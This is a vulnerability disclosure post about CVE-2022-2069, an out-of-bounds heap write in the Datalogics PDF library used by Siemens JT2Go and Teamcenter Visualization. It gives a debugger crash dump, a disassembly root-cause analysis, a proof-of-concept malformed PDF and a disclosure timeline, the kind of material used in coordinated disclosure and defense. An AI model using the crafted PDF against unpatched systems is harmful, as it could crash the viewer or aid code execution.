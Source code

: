 ```yaml
---
layout: post
title:  "CVE-2022-2069 - Datalogics File Parsing Vulnerability in Teamcenter Visualization and JT2Go"
date:   2022-08-17 10:00:00 +0800
tags:
    - CVE-2022-2069
    - SSA-829738
---
```


Overview
-----------
JT2Go has been unanimously embraced by industry leaders as the premier free viewing tool for JT data. By providing a comprehensive Desktop application and mobile platform solutions on iOS and Android, Siemens has made viewing of JT data available for everyone in nearly any situation. Exact product that was found to be vulnerable including complete version information was Siemens PLM Software JT2Go 13.3.0.20211108.01. Siemens Teamcenter Visualization and JT2Go are affected by an out of bounds write vulnerability in APDFL library from Datalogics. If a user is tricked to open a malicious PDF file with the affected products, this could lead the application to crash or potentially lead to arbitrary code execution.

Root Cause Analysis
-------------------
An exploitable out-of-bounds heap write vulnerability exists due to an error in the DL180pdfl!PDNameTreeLookup function when handling a maliciously crafted PDF file. A remote attacker may be able to exploit this to execute arbitrary code within the context of the application, via a crafted PDF file. A specially crafted PDF document can trigger an out-of-bounds write, which can disclose sensitive memory content or even write and aid in exploitation when coupled with another vulnerability. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. 

An access violation happened when JT2Go tries to open specially crafted PDF file. If we look at the crash path, it appears r9 is containing an out-of-bounds memory region and it was accessed. The analysis performed on DL180pdf.dll that triggers the vulnerability.
```
(5b8.6cc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
DL180pdfl!PDNameTreeLookup+0x785e8a:
00007fff`1d0dd0d0 41897904        mov     dword ptr [r9+4],edi ds:00000257`ff441000=????????

0:000> .exr -1
ExceptionAddress: 00007fff1d0dd0d0 (DL180pdfl!PDNameTreeLookup+0x0000000000785e8a)
ExceptionCode: c0000005 (Access violation)
ExceptionFlags: 00000000
NumberParameters: 2
 Parameter[0]: 0000000000000001
 Parameter[1]: 00000257ff441000
Attempt to write to address 00000257ff441000
```

Looking at the crash path, we know that the r9 is containing OOB memory region:
```
.text:00000001807AD0D0 loc_1807AD0D0:                     
.text:00000001807AD0D0                 mov     [r9+4], edi    ; crash here
.text:00000001807AD0D4                 mov     [r9], edi
.text:00000001807AD0D7                 mov     [r8+4], edi
.text:00000001807AD0DB                 mov     [r8], edi
.text:00000001807AD0DE                 movzx   r13d, [rbp+57h+var_CE]
.text:00000001807AD0E3                 xor     r13b, 1
.text:00000001807AD0E7                 mov     [rbp+57h+var_CE], r13b
```

The pointer was assigned by ASmalloc():
```
; v20 = *(&v58 + v4);
.text:00000001807ACF50 loc_1807ACF50:               
.text:00000001807ACF50                 mov     esi, 0FFFFFFFFh
.text:00000001807ACF55                 mov     r14d, r12d
.text:00000001807ACF58                 movzx   edx, r12w
.text:00000001807ACF5C                 mov     [rbp+57h+var_D0], dx
.text:00000001807ACF60                 xor     r12b, r12b
.text:00000001807ACF63                 mov     [rbp+57h+arg_18], r12b
.text:00000001807ACF67                 movzx   eax, r13b
.text:00000001807ACF6B                 mov     r8, qword ptr [rbp+rax*8+57h+var_80]
.text:00000001807ACF70                 mov     r9, qword ptr [rbp+rax*8+57h+var_68]       ; r9 was assigned with the point to [rbp+rax*8+57h+var_68]
.text:00000001807ACF75                 mov     [r9], esi
.text:00000001807ACF78                 mov     [r8], esi
.text:00000001807ACF7B                 add     r8, 4
.text:00000001807ACF7F                 mov     [rbp+57h+var_B8], r8
.text:00000001807ACF83                 add     r9, 4
```

This code where it is responsible to assigned the size:
```
; v7 = 4i64 * (*a2 + 4);
.text:00000001807ACE8F                 mov     ebx, eax
.text:00000001807ACE91                 shl     rbx, 2
  
; v11 = ASmalloc(v7);
; *&v58 = v11;
.text:00000001807ACEE6                 mov     ecx, edi
.text:00000001807ACEE8                 call    ASmalloc
.text:00000001807ACEED                 mov     rbx, rax
.text:00000001807ACEF0                 mov     qword ptr [rbp+57h+var_68], rax
```

The r9 register add up with 4 which change the size of the heap with extra 4 bytes:
```
; v22 = v20 + 1;
.text:00000001807ACF83                 add     r9, 4
.text:00000001807ACF87                 mov     [rbp+57h+var_C8], r9
```

However when EDI tries to access r9, it appears it tries to access to a pointer that contains out-of-bounds memory region which triggers heap corruption when it writes to OOB memory.
```
.text:00000001807AD0D0                 mov     [r9+4], edi    ; crash due to heap corruption
.text:00000001807AD0D4                 mov     [r9], edi
.text:00000001807AD0D7                 mov     [r8+4], edi
```

Proof-of-Concept related to the PDF that cause the issue:
```
%PDF-1.4
1 0 obj
<< /Type /Catalog
/Outlines 2 0 R
/Pages 3 0 R
>>
endobj

2 0 obj
<< /Count 0
/Type /Outlines
>>
endobj

3 0 obj
<< /Count 1
/Kids [8 0 R]
/Type /Pages
>>
endobj

4 0 obj
<< /Length 103
>>
stream
���������\������\ö €üYYYYYPPPPPPPPPPPPPPPPPPPPPPPPPPPpPPPPPPPPPS³:>0¨ÿ+1lV?~~èa"xvi´–„#ÿ¬
endstream
endobj

5 0 obj
<< /DecodeParms  << /JBIG2Globals 4 0 R >>
/Width 32
/ColorSpace /DeviceGray
/Height 32
/Filter /JBIG2Decode
/Subtype /Image
/Length 76
/Type /XObject
/BitsPerComponent 1
>>
stream
���0������� ��� ���G���G������"����"��� ��� ��������������žèTìßë	N“ÿ¬
endstream
endobj

6 0 obj
<< /Length 42
>>
stream
q 32.000000 0 0 32.000000 0 0 cm /Im1 Do Q
endstream
endobj

7 0 obj
<< /XObject << /Im1 5 0 R >>
/ProcSet [/PDF /ImageB]
>>
endobj

8 0 obj
<< /Parent 3 0 R
/Type /Page
/Contents 6 0 R
/Resources 7 0 R
/MediaB‚x [ 0 0 32.000000 32.000000 ]
>>
endobj

xref
0 9
0000000000 65535 f 
0000000009 00000 n 
0000000075 00000 n 
0000000122 00000 n 
0000000180 00000 n 
0000000269 00000 n 
0000000553 00000 n 
0000000646 00000 n ¡0000000718 00000 n 

trailer
<< /Size 9
/Root 1 0 R >>
startxref
837
%%EOF
```

Disclosure timeline
-------------------
The vulnerability was reported back in March 2022. Timeline of disclosure:
- [March 9, 2022] Sending the proof-of-concept and the analysis to productcert@siemens.com
- [March 9, 2022] Siemens CERT team acknowledge teh submission and track the submission with ID S-PCERT#50343
- [March 22, 2022] Request for an update to Siemens CERT
- [March 22, 2022] Siemens CERT replying said that they still perform an analysis
- [April 13, 2022] Request for an update to Siemens CERT
- [April 13, 2022] Siemens CERT confirm the issue submitted is valid and they're able to reproduced the issue. They observed the issue resides on DL180pdf library which is a 3rd party library belongs to Datalogics. CERT asked for my detail to be put in their advisory and CVE will be assign.
- [June 21, 2022] Request for an update to Siemens CERT
- [June 21, 2022] Siemens CERT plan to publish an advisory on July 12th and has assigned CVE-2022-2069. 
- [July 12, 2022] Siemens CERT sending an email regarding the advisory on https://cert-portal.siemens.com/productcert/html/ssa-829738.html
- [March 9, 2022]






